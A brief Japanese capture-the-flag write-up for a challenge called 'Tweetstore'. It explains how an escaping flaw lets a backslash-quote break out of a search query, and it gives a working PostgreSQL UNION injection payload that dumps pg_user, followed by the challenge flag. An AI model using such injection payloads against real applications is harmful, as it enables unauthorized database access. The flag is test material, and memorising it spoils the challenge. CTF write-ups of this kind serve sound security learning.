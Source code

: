 # Tweetstore

## Write-up

search word に `\'` を入力するとSQLが `\\'` となり `'` を挿入できる。    
postgresql の pg_user の結果を union すればフラグを取得できる。

```
\' union select usename as url, usename as text, now() as tweeted_at from pg_user --
```

## Flag

`ctf4b{is_postgres_your_friend?}`
